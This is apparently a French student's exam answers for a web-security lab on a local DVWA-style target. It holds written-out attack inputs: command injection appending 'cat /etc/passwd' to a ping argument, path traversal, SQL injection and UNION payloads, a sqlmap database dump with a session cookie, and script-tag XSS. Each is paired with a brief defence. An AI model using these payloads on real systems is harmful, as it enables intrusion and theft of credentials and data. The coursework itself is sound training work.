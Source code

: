 # Eval

SIMON EYRAGNE DFS 13


## Question 1
Performance parfaite;
<html> missing [lang] attribute; interpretation du navigateur selon la langue de l'utilisateur,
<img> missing [alt]: mettre description des images;
<meta name="viewport"> missing; pas d'optimisation pour les mobiles;
 mauvaise utilisation des fontsizes
 meta description pour le document,
  page bloqué pour l'indexation


## Question 2
un dossier config

Dirbuster déduit l'arborescence d'un site web depuis les requete HTTP si code 403 (forbidden) alors le fichier existe;
Pour se protéger, on peut limiter le nombre de requete depuis L'IP; Renvoyer code 404(not found) pour tous les fichiers;

## Question 3
8.8.8.8; cat /etc/passwd
chaine après la commande ping, j'affiche le fichier avec le cat 
; netstats
Apparemment pas installer sur le serveur, j'ai cherché une alternative
; nstat
Qui liste les connexions actives

possibilité d'exécuter des commandes OS, vol d'information, modification du server;
-validation des inputs: taille, min and max length;
-on escape les caractères ';'

## Question 4
http://localhost/vulnerabilities/fi/?page=../../index.php
J'ai remonté dans l'arborescence pour trouver index.php
On peut remonter jusqu'au ficher /etc/passwd ou pire;
escape des caractères
Dans le code sur la fonction de redirection, on rajoute des sécurité, escape de caractère
ou forcer une extension de fichier


## Question 5
Premier test avec ', qui renvoie une erreur sql;
2eme test avec  ' OR 1=1 -- , qui renvoie la liste + password des user
3eme test avec ' OR 1=1 UNION SELECT 1,1,1 -- , pas le bon nombre de colonnes
4eme avec ' OR 1=1 UNION SELECT 1,2 -- 
' OR 1=1 UNION SELECT CONCAT(information_schema.tables),2 --; unknown table information_schema 
Faille: récupération d'information sensible de la base;
Protection: préparation des requêtes en amont avec ORM;
on escape les caractères 
vérification de l'input
## Question 6

sqlmap -u "http://localhost/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --dbms=mysql --dump --cookie="PHPSESSID=nhea6jcj46io50n8b7r4dl1135; security=low" -b --current-db --current-user

Une injection SQL aveugle demande a la DB des questions vrai ou faux

## Question 7
<script>alert('js')</script>
On passe une balise script dans l'input
Faille: script pour récupérer des informations
Protection: on escape les caractère, mise en place d'un WAF

## Question 8

<script>alert('js')</script>
On passe une balise script dans l'input
Dans le cas d'une XSS stocké, le script malicieux est stocké en base
et peut donc se déclencher a tout moment;

## Question 9

Confidentiality, Integrityn, Availabitlity
Principe du transport de données

## Question 10

Le hash est un algorithme qui permet de modifier un texte en une valeur fixe. 
On rajoute un salt pour éviter que le hashage soit facilement retrouvé. 
Il existe des listes de correspondance entre mots et hash facilement trouvable;

Chiffrer est une méthode d'encodage pour que seul les personnes ayant la clé de chiffrement
puissent le décoder;
2 méthodes = symétrique: même clé de chiffrement
asymétrique: PGP, une clé public pour recevoir des messages chiffrés
et une clé privée pour les décoder;
